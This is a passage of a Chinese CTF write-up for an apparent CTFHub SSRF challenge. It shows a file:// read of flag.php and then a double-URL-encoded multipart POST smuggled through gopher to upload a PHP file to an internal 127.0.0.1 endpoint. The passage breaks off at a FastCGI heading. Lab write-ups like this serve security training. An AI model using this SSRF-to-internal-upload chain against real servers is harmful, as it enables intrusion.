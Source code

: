 ![image-20220610182157048](C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220610182157048.png)

提示需要上传 Webshell，只有选择文件功能，并没有提交按钮。
使用`file`协议读取`flag.php`的源码

```bash
?url=file:///var/www/html/flag.php
```

<img src="C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220610182423622.png" alt="image-20220610182423622" style="zoom:80%;" />

<img src="C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220610182433905.png" alt="image-20220610182433905" style="zoom:80%;" />

发现flag.php处是一个文件上传界面，但是缺少提交按钮，修改前端页面，添加提交按钮

<img src="C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220610182638526.png" alt="image-20220610182638526" style="zoom:80%;" />

<img src="C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220610182734001.png" alt="image-20220610182734001" style="zoom:80%;" />

上传后抓包

![image-20220610193944394](C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220610193944394.png)

进行两次url编码，得到：

```
POST%2520/flag.php%2520HTTP/1.1%250D%250AHost:%2520challenge-a3121c44ac14c19f.sandbox.ctfhub.com:10800%250D%250AUser-Agent:%2520Mozilla/5.0%2520(Windows%2520NT%252010.0;%2520Win64;%2520x64;%2520rv:101.0)%2520Gecko/20100101%2520Firefox/101.0%250D%250AAccept:%2520text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8%250D%250AAccept-Language:%2520zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2%250D%250AAccept-Encoding:%2520gzip,%2520deflate%250D%250AContent-Type:%2520multipart/form-data;%2520boundary=---------------------------9089388617334566272340632599%250D%250AContent-Length:%2520354%250D%250AOrigin:%2520http://challenge-a3121c44ac14c19f.sandbox.ctfhub.com:10800%250D%250AConnection:%2520close%250D%250AReferer:%2520http://challenge-a3121c44ac14c19f.sandbox.ctfhub.com:10800/?url=127.0.0.1/flag.php%250D%250AUpgrade-Insecure-Requests:%25201%250D%250A%250D%250A-----------------------------9089388617334566272340632599%250D%250AContent-Disposition:%2520form-data;%2520name=%2522file%2522;%2520filename=%25221.php%2522%250D%250AContent-Type:%2520application/octet-stream%250D%250A%250D%250Awasda%250D%250A-----------------------------9089388617334566272340632599%250D%250AContent-Disposition:%2520form-data;%2520name=%2522submit%2522%250D%250A%250D%250A%25C3%25A6%25C2%258F%25C2%2590%25C3%25A4%25C2%25BA%25C2%25A4%25C3%25A6%25C2%259F%25C2%25A5%25C3%25A8%25C2%25AF%25C2%25A2%250D%250A-----------------------------9089388617334566272340632599--%250D%250A
```

抓一个最初的

<img src="C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220610185611152.png" alt="image-20220610185611152" style="zoom:80%;" />

利用gopher去发送请求

![image-20220610195259093](C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220610195259093.png)

### **FastCGI协议
